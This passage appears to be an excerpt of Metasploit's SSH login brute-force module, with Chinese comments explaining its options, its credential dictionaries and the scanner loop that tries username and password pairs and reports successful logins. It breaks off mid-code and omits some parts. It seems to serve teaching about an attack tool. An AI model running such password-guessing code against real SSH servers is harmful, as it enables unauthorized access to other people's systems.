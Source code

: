 ```
    )

# 配置参数，包含默认的参数设置为 22 号端口
    register_options(
      [
        Opt::RPORT(22)
      ], self.class
    )

...

# 配置攻击会话
  def session_setup(result, ssh_socket)
  	...
  end

# 执行攻击
  def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => "Starting bruteforce"

    # 提取配置的字典文件等参数，用来进行暴力破解的用户名和密码信息
    cred_collection = Metasploit::Framework::CredentialCollection.new(
      blank_passwords: datastore['BLANK_PASSWORDS'],
      pass_file: datastore['PASS_FILE'],
      password: datastore['PASSWORD'],
      user_file: datastore['USER_FILE'],
      userpass_file: datastore['USERPASS_FILE'],
      username: datastore['USERNAME'],
      user_as_pass: datastore['USER_AS_PASS'],
    )

    cred_collection = prepend_db_passwords(cred_collection)

    # 创建 scanner 对象，Scanner 对象将用作控制循环尝试连接的暴力破解过程
    scanner = Metasploit::Framework::LoginScanner::SSH.new(
      host: ip,
      port: rport,
      cred_details: cred_collection,
      proxies: datastore['Proxies'],
      stop_on_success: datastore['STOP_ON_SUCCESS'],
      bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
      connection_timeout: datastore['SSH_TIMEOUT'],
      framework: framework,
      framework_module: self,
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

	# 进入攻击程序的主循环，有多个判断，主循环中会遍历所有的可能的用户名及密码（来自先前设置的字典文件参数）
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      # 判断返回值的各种情况
      case result.status
      
      # 如果用户名及密码匹配成功，则打印成功信息，并调用 session_setup 建立 SSH 连接，然后继续循环
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
```